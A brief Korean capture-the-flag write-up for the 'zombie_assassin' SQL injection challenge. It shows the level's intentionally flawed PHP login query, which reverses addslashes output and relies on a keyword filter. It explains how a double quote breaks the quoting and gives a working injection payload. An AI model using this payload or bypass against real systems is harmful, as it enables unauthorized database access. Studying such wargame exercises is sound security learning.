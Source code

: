 # zombie\_assassin

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();
  $_GET['id'] = strrev(addslashes($_GET['id']));
  $_GET['pw'] = strrev(addslashes($_GET['pw']));
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_zombie_assassin where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("zombie_assassin"); 
  highlight_file(__FILE__); 
?>
```

`addslashes`를 이용해서 `'`를 우회할 수 있어보인다. `id`에 `"`를 넣어서 `'"\'`의 형태가 나와서 `pw`까지 `id`의 인자에 포함된다. 이를 이용해 `exploit`을 하자

> ?id="&pw=%231=1\|\|

클리어!


